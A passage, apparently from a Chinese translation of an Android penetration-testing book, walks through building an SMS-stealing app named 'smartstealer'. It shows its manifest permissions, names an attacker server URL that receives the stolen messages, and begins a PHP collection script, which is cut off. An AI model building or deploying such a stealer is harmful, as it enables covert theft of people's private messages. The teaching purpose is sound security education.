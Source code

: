 }
```**  **### 注册权限

由于应用正在处理阅读短信和进行网络连接，我们需要在`AndroidManifest.xml`中添加以下权限：

```
<uses-permission android:name="android.permission.INTERNET"></uses-permission>
 <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartstealer" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />

              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

### 服务器上的代码

在上一节中，我们使用以下 URL 发送短信：

`http://10.0.0.31/smartstealer/sms.php`

我们现在需要编写在服务器端接收 SMS 的代码。简单地说，我们现在看到了攻击者服务器上托管的`sms.php`文件的代码。

以下是`sms.php`的完整代码：

```
<?php 

$sms   = $_POST["sms"];
